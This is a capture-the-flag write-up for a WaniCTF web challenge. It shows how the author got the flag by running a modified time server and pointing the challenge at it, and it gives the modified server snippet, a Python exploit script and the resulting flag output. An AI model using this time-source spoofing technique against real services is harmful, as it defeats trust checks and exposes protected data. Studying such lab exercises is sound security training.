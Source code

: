 ```yaml
---
ai_date: '2025-04-27 05:24:09'
ai_summary: Web challenge exploiting timing difference in server's time handling,
  solved by setting up a custom time server
ai_tags:
- time
- http-hdr
- rce
created: 2024-06-22T17:30
points: 190
solves: 105
updated: 2024-08-05T09:53
---
```


I went on a large tangent searching for ways to crack the ECC and DSS.

Then I realised that this is a web challenge.

The true solution is to setup my own time server, and just tell the server, to use my own time server.

On my own server, the code has also been altered to allow custom time.

```python
if 'time' in self.path:
	time_query = self.path.split('=')[1]
	timestamp = str(int(time_query)).encode('utf-8')
else:
	timestamp = str(int(time.time())).encode('utf-8')
```

```python
import requests
txt = []
for i in range(12):
    req = requests.get("https://my.server?time=" + str(i*60*60*24+1719090812))
    json_data = req.json()
    json_data["timeserver"] = "my.server"
    response = requests.post("https://web-one-day-one-letter-content-lz56g6.wanictf.org/", json=json_data)
    txt.append(response.text.split("\n")[1])
    txt = [list(row) for row in txt]
    transposed_txt = list(map(list, zip(*txt)))
    print(''.join([next((c for c in l if c!='?'), '?') for l in transposed_txt]))
```

```
<p>Flag is FLAG{l???????????}.</p>
<p>Flag is FLAG{ly??????????}.</p>
<p>Flag is FLAG{lyi?????????}.</p>
<p>Flag is FLAG{lyin????????}.</p>
<p>Flag is FLAG{lying???????}.</p>
<p>Flag is FLAG{lyingt??????}.</p>
<p>Flag is FLAG{lyingth?????}.</p>
<p>Flag is FLAG{lyingthe????}.</p>
<p>Flag is FLAG{lyingthet???}.</p>
<p>Flag is FLAG{lyingtheti??}.</p>
<p>Flag is FLAG{lyingthetim?}.</p>
<p>Flag is FLAG{lyingthetime}.</p>
```